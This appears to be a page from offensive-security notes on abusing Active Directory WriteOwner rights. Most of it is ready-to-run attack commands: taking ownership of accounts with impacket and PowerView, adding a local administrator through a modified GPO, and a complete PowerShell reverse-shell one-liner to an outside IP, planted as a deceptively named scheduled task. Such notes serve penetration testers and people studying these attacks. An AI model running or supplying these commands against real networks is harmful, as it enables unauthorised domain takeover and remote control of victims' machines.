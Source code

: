 # WriteOwner

## Information

{% hint style="warning" %}
* **Ownership** give us the right to modify the object's permissions (DACL).
* Once we're owner, we can give ourselves `FullControl`, we don’t automatically get it.
{% endhint %}



{% tabs %}
{% tab title="User" %}
This permission has the ability to modify the owner of the user, i.e, give the [`Owns`](owns.md) permission, which can then being used to modify object security descriptors, regardless of permissions on the object's DACL.

From Linux:

{% code overflow="wrap" %}
```bash
impacket-owneredit -action write -new-owner <compromised-user> -target <target-account> <domain>/<compromised-user>:<pass>
```
{% endcode %}

From Windows (PowerView):

{% code overflow="wrap" %}
```powershell
# Create an object with the compromised account's credentials
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

# Set the ownership of the target object with PowerView
Set-DomainObjectOwner -Credential $Cred -TargetIdentity "<target-account>" -OwnerIdentity "<compromised-user>"
```
{% endcode %}
{% endtab %}

{% tab title="GPO" %}
[`pyGPOAbuse`](https://github.com/Hackndo/pyGPOAbuse) can be used when a controlled account can modify an existing GPO that applies to one or more users & computers. It will create an **immediate scheduled task** as `SYSTEM` on the remote computer for computer GPO, or as logged in user for user GPO.

{% hint style="warning" %}
The Policy needs to be updated after the modifications: `gpupdate /force`.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Add an administrator user (john:H4x00r123..)
$ uv run pygpoabuse.py domain.local/x7331:Pass123! -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9"
[+] ScheduledTask TASK_69ed6112 created!

# Revshell
$ uv run pygpoabuse.py domain.local/x7331:Pass123! -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9" -powershell -command "\$client = New-Object System.Net.Sockets.TCPClient('192.168.45.241',80);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" -taskname "Completely Legit Task" -description "Dis is legit, pliz no delete" -user
[+] ScheduledTask Completely Legit Task created!
```
{% endcode %}

From Windows [`SharpGPOAbuse`](https://github.com/FSecureLABS/SharpGPOAbuse) can be used to achieve the same result, i.e., add a user into the `Administrators` group:

{% code overflow="wrap" %}
```powershell
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount x7331 --GPOName "Default Domain Policy"
```
{% endcode %}
{% endtab %}
{% endtabs %}

For subsequent exploitation steps check [`WriteDACL`](writedacl.md).
